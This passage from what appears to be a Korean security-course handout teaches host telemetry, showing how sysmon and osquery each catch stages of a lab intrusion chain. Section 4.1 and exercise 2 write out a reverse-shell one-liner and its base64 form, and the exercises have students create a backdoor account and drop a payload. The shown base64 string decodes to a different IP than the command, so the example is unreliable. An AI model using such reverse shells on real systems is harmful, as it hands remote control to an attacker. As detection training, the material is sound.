이번 주 실습은 하나의 일관된 침해 시나리오를 따라간다. 공격자가 인코딩된 리버스셸을
실행하고(① ProcessCreate), 콜백 포트로 연결을 시도하고(② NetworkConnect), 페이로드를
떨어뜨린 뒤(③ FileCreate), 마지막으로 백도어 계정으로 지속성을 확보(④ persistence)한다.
각 단계를 어떤 도구가 잡는지가 핵심이다.



핵심은 ① 단계다. 인코딩되고 **짧게 실행되는** 명령을 osquery 스냅샷은 놓치지만, sysmon 은
생성되는 순간의 전체 cmdline 을 EventID 1 로 남긴다. 반대로 ④ 백도어 계정은 **상태가
남는** 지속성이라 osquery 스냅샷이 강한 영역이다. **하나의 사슬 안에 두 도구의 역할
분담** 이 그대로 드러난다.

### 4.1 base64 디코드 — 의도를 밝히는 법

공격자는 명령을 base64 로 인코딩해 의도를 숨긴다. 디코드하면 원래 명령이 드러난다.

```bash
echo 'bash -i >& /dev/tcp/192.168.0.202/53666 0>&1' | base64
#  → YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4zMC4yMDIvNTM2NjYgMD4mMQo=

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4zMC4yMDIvNTM2NjYgMD4mMQo=' | base64 -d
#  → bash -i >& /dev/tcp/192.168.0.202/53666 0>&1     (리버스셸!)
```

`base64 -d`(decode)로 풀면 `/dev/tcp/192.168.0.202/53666` 로 셸을 되돌리는 리버스셸임이
드러난다. 그리고 sysmon 의 ProcessCreate 는 이 디코딩·실행 명령(`base64 -d`, `b64decode`)의
**cmdline 자체** 를 이벤트로 남기므로, 사후에도 "무엇을 디코드해 실행했나" 를 추적할 수
있다.

---

## 5. sysmon 과 osquery — 경쟁이 아니라 보완

### 5.1 한 줄 정의 — 잡는 대상이 다른 두 축

두 도구를 "어느 게 더 좋은가" 로 보면 안 된다. **이벤트 스트림(sysmon)** 과 **스냅샷
(osquery)** 은 잡는 대상이 달라, 호스트 가시화의 두 축을 이룬다.

| 구분 | sysmon (이벤트 스트림) | osquery (스냅샷) |
|------|------------------------|------------------|
| 본질 | 일어난 모든 순간을 기록 | 지금 이 순간의 상태 |
| 강한 영역 | 단명·인코딩 프로세스, 연결, 파일 생성 | 계정·포트·지속 발판 등 현재 상태 |
| 약한 영역 | 현재 상태 조회 | 이미 사라진 순간 |
| 출처 | eBPF 센서(호스트 커널) | OS 를 SQL 테이블로 추상화 |
| el34 위치 | 호스트(192.168.0.80) | 컨테이너(el34-web) 내부 |

### 5.2 왜 중요한가 — 한 사슬에 두 역할이 다 필요하다

§4 의 침해 사슬이 그 증거다. ①②③(단명 프로세스·연결·파일 생성)은 sysmon 이, ④(백도어
계정)는 osquery 가 잡는다. 어느 한 도구만 쓰면 사슬의 절반을 놓친다. **"단명·인코딩·삭제된
흔적은 sysmon, 지속 상태는 osquery"** 가 도구 선택의 기준이다.

### 5.3 한계 — 둘 다 호스트 내부 관점이다

sysmon·osquery 모두 **호스트 안** 을 본다. 네트워크 경계의 트래픽 자체는 여전히
Suricata(IPS, W03–W04)와 ModSec(WAF, W05)이, 다소스 통합 평결은 Wazuh(SIEM, W09–W10)가
맡는다. 호스트 이벤트(sysmon)는 이들과 합쳐져야 전체 그림이 완성된다 — 이것이 W08 에서
본 "한 공격의 다계층 흔적" 의 호스트 쪽 조각이다.

---

## 6. 실습 안내 (총 9 미션)

각 실습은 **4축 설명** 을 포함한다. 공격은 `ssh ccc@10.20.32.80 …` 로, sysmon 관측은
호스트(`ssh ccc@192.168.0.80`)의 `/var/log/syslog` 로 한다. **sysmon 데몬 자체는 영속
인프라(유지)** 이며, 실습이 만든 계정·파일·프로세스만 self-clean 한다.

### 실습 1 — 호스트 sysmon(비행기록장치)이 돌고 있나 (점검)

> **이 실습을 왜 하는가?**
> 이벤트 스트림의 전제는 센서(sysmon)가 호스트에 살아 있는 것이다. 센서가 멈추면 그 순간
> 부터의 모든 이벤트가 사라진다. 운영 인수 첫 30초의 점검이다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - `systemctl is-active sysmon` 으로 eBPF 센서(데몬)의 가동 여부
> - `sysmon -c` 의 config 에 3 EventID(ProcessCreate/NetworkConnect/FileCreate)가 잡혀 있는지
> - `grep -ac Linux-Sysmon /var/log/syslog` 로 실제 이벤트가 syslog 에 적재되는지
>
> **결과 해석**
> 정상: sysmon `active` + config 에 3 event + syslog 에 `Linux-Sysmon` 적재(0 이 아님).
> 비정상: `inactive` 면 센서가 죽어 이벤트가 안 남는 것 → 최우선 복구. 적재량이 0 이면
> 필터가 너무 좁거나 syslog 경로 문제.
>
> **실전 활용**
> 호스트 텔레메트리 운영자가 매일 확인하는 헬스체크. "왜 이벤트가 안 보이지?" 의 첫 점검.

### 실습 2 — base64 리버스셸 페이로드 디코드 (분석)

> **이 실습을 왜 하는가?**
> 공격자가 의도를 숨기려 인코딩한 명령을, 분석가가 디코드로 되살려 의도를 밝히는 기본
> 기술을 익힌다(§4.1).
>
> **이걸 하면 무엇을 알 수 있는가?**
> - `base64 -d` 로 인코딩 페이로드를 평문으로 복원하는 법
> - 복원 결과가 `/dev/tcp/...53666` 리버스셸임을 식별
>
> **결과 해석**
> 정상: 디코드 출력에 `dev/tcp` 와 포트 `53666` 이 드러난다. 이것이 "이 명령은 셸을
> 외부로 되돌리는 리버스셸" 이라는 판단 근거다.
>
> **실전 활용**
> 로그·스크립트에서 base64 덩어리를 만났을 때 가장 먼저 하는 1차 분석.

### 실습 3 — ProcessCreate(1) vs osquery: 단명·인코딩 프로세스 (탐지)

> **이 실습을 왜 하는가?**
> W11 의 핵심 대비 — 같은 단명·인코딩 위협을 osquery 스냅샷은 놓치고 sysmon 이벤트는
> 잡는다 — 를 직접 손으로 재현한다(§3.2).
>
> **이걸 하면 무엇을 알 수 있는가?**
> - el34-web 에서 인코딩 명령을 짧게 실행한 뒤 osquery `processes` 가 빈 결과인 것
> - 같은 순간이 sysmon syslog 에 `b64decode` cmdline 으로 남아 있는 것
>
> **결과 해석**
> 정상: osquery 는 `[]`(빈 결과 — 이미 종료된 프로세스), sysmon syslog 에는 `b64decode`
> 가 포함된 ProcessCreate 한 줄. 빈 결과는 실패가 아니라 스냅샷의 사각을 보여주는 것이다.
>
> **실전 활용**
> "분명 실행됐는데 osquery 엔 없다" 는 상황에서 이벤트 스트림으로 그 순간을 복원하는
> 표준 흐름.

### 실습 4 — NetworkConnect(3): 콜백 연결의 순간 (탐지)

> **이 실습을 왜 하는가?**
> 리버스셸 콜백 포트(53666)로의 연결을 sysmon 이 호스트 관점에서 이벤트로 남기는지
> 확인한다(§3.3).
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 콜백 연결을 모사하면 sysmon EventID 3(NetworkConnect)이 발생함
> - `DestinationPort 53666` 으로 "어디로 연결했나" 가 남음
>
> **결과 해석**
> 정상: sysmon syslog 에 `<EventID>3<` + `53666` 한 줄. 안 보이면 필터(config)나 연결
> 모사가 실패한 것.
>
> **실전 활용**
> 호스트에서 "어느 프로세스가 어디로 나갔나" 를 추적하는 detection — 경계의 Suricata 와
> 합쳐 상관한다.

### 실습 5 — FileCreate(11): 페이로드가 떨어지는 순간 (탐지)

> **이 실습을 왜 하는가?**
> 페이로드 파일 생성을 sysmon 이 이벤트로 남기는지, 그래서 곧바로 지워도 생성 사실이
> 추적되는지 확인한다(§3.4).
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 파일 생성이 sysmon EventID 11(FileCreate)로 남음
> - `TargetFilename /tmp/w11_payload.b64` 로 "무엇이 떨어졌나" 가 남음
>
> **결과 해석**
> 정상: sysmon syslog 에 `<EventID>11<` + `w11_payload` 한 줄. 파일을 삭제해도 이 생성
> 이벤트는 남는다.
>
> **실전 활용**
> "지워진 페이로드" 추적 — Wazuh FIM 과 다른 소스(eBPF)로 같은 사건을 교차 확인.

### 실습 6 — persistence 백도어 계정: 스냅샷이 강한 영역 (대응)

> **이 실습을 왜 하는가?**
> 모든 위협을 sysmon 으로 보는 게 아님을 보여준다 — 지속 상태(계정)는 osquery 스냅샷이
> 더 확실하다(§5). 두 도구의 역할 분담을 체감한다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 백도어 계정(smonbd)을 만들면 osquery `users` 테이블에 즉시 잡힘
> - 단명 프로세스(sysmon 영역)와 달리, 지속 상태는 스냅샷의 강점
>
> **결과 해석**
> 정상: osquery `users` 에 `smonbd` 가 보이고, userdel 후 잔재 0. 계정은 "지금 존재하면
> 무조건 보이는" 상태 위협이라 스냅샷으로 충분하다.
>
> **실전 활용**
> 침해 후 "어떤 계정이 새로 생겼나" 점검 — 이벤트 로그를 거꾸로 뒤지기보다 osquery 한
> 줄이 빠르고 정확.

### 실습 7 — sysmon(이벤트) vs osquery(스냅샷) 역할 정리 (분석)

> **이 실습을 왜 하는가?**
> 이번 주 활동을 두 도구의 관점으로 집계해, 무엇을 누가 잡았는지 한눈에 정리한다(§5).
>
> **이걸 하면 무엇을 알 수 있는가?**
> - sysmon EventID 1/3/11 의 집계로 이벤트 스트림의 다면(프로세스·네트워크·파일) 포착
> - 단명 위협은 sysmon, 지속 상태는 osquery 라는 선택 기준
>
> **결과 해석**
> 정상: EventID 1/3/11 이 함께 집계된다. 한 종류만 보이면 해당 활동이 안 일어났거나 필터
> 문제.
>
> **실전 활용**
> "우리 호스트 가시화가 다면을 보고 있나?" 를 1분에 답하는 점검.

### 실습 8 — 종합 보고서: '그 순간'을 누가 잡았나 (보고)

> **이 실습을 왜 하는가?**
> 실습 1~7 을 이벤트 스트림 관점으로 묶어 운영 보고서로 정리한다. "막았다" 가 아니라
> "어느 도구가 어느 순간을 잡았다" 를 증거로 쓰는 훈련이다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - sysmon 3 event(ProcessCreate/NetworkConnect/FileCreate)와 osquery 대비를 한 장으로 종합
> - 호스트 가시화 두 축(이벤트 vs 스냅샷)의 선택 기준
>
> **결과 해석**
> 정상: 보고서에 sysmon 3 event 표 + osquery 대비 + 도구 선택 기준이 포함된다.
>
> **실전 활용**
> IR 보고·인수인계의 기본 양식 — 침해 사슬의 단계별로 "어느 텔레메트리가 증거를 남겼나"
> 를 배치하는 습관.

### 실습 9 — 정리 확인: 실습 아티팩트 0, sysmon 은 유지 (정리)

> **이 실습을 왜 하는가?**
> el34 호스트는 공유 자원이다. 실습이 만든 계정(smonbd)·페이로드·리스너 잔재가 남으면
> 다음 학생의 환경을 오염시킨다. 단, sysmon 센서는 영속 인프라라 유지한다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 계정/payload/리스너 잔재가 0 인지
> - sysmon 데몬이 여전히 `active` 인지(인프라는 유지)
>
> **결과 해석**
> 정상: 잔재 0 + sysmon `active` + `check done`. 잔재가 있으면 즉시 self-clean.
>
> **실전 활용**
> 공유 호스트 운영의 기본 의무 — "내가 만든 흔적은 내가 지운다. 단, 운영 텔레메트리
> 인프라는 건드리지 않는다" 의 균형.

---

## 7. 핵심 정리 (1줄씩)

1. **스냅샷은 사진, 이벤트는 녹화** — osquery 는 "지금 떠 있는 것", sysmon 은 "일어난 모든
   순간". 단명·인코딩·삭제된 흔적은 사진 사이로 빠진다.
2. **sysmon = 호스트의 비행기록장치** — eBPF 센서로 ProcessCreate(1)/NetworkConnect(3)/
   FileCreate(11)를 syslog 에 영구 기록.
3. **왜 호스트인가** — 컨테이너(el34-web)는 비특권(eBPF 불가)·인터넷 닫힘. 호스트는 root +
   커널 + 인터넷이 되고, 컨테이너 프로세스는 호스트 커널 프로세스라 **호스트 sysmon 이
   컨테이너 안까지 다 본다**.
4. **ProcessCreate(1)가 sysmon 의 별** — 단명·인코딩 명령의 전체 cmdline 을 남겨, osquery
   가 놓친 "그 순간" 을 복원.
5. **두 도구는 보완** — 단명·인코딩·삭제된 흔적은 sysmon, 지속 상태(계정·발판)는 osquery.
   한 침해 사슬에 두 역할이 다 필요하다.
6. **공유 호스트 보존** — 실습 아티팩트(계정/파일/리스너)는 self-clean, sysmon 센서는 영속
   인프라로 유지한다.

---

## 8. 다음 주차 (W12) 예고 — 위협의 언어: STIX/OpenCTI → Wazuh

W11 까지 osquery(스냅샷)와 sysmon(이벤트 스트림)으로 **우리 호스트 내부** 의 텔레메트리를
다뤘다. 그런데 세상엔 이미 **"이 IP·해시·도구는 악성"** 이라고 정리된 **위협 인텔리전스
(CTI)** 가 있다. W12 부터는 그 외부 지식을 우리 SIEM 이 알아듣게 만든다 — el34 에 실제
가동 중인 **OpenCTI/MISP** 에서 알려진 악성 지표(STIX 2.1)를 가져와, Wazuh 가 **CDB
매칭** 으로 "이 sqlmap·이 IP 는 알려진 악성" 이라고 자동 격상하게 한다. 호스트 텔레메트리
에서 한 걸음 더 나아가, "이 흔적이 세상이 아는 악성인가?" 를 자동으로 판별하는 단계다.

- **주제**: STIX/TAXII 표준 + OpenCTI/MISP → Wazuh CDB list IOC 매칭
- **실습 환경**: el34 (OpenCTI/MISP 가동 + Wazuh manager)
- **핵심 도구**: OpenCTI, MISP, Wazuh CDB list + 매칭 룰
- **선수 학습**: 본 주차 §5(두 도구 보완) + W09 §5~§6(rule/level, local_rules 격상) 복습
